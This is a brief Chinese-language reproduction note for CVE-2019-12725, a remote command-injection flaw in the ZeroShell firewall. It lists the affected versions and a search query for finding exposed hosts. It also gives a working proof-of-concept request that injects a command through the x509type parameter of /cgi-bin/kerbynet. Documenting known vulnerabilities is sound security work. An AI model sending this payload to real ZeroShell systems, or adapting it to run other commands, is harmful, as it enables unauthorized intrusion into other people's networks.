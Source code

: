 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
ZeroShell < 3.9.0
```

## 网络测绘

```
app="Zeroshell-防火墙"
```

## 漏洞复现

登录页面如下



![](./images/202202162258497.png)

验证的POC为

```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](./images/202202162258777.png)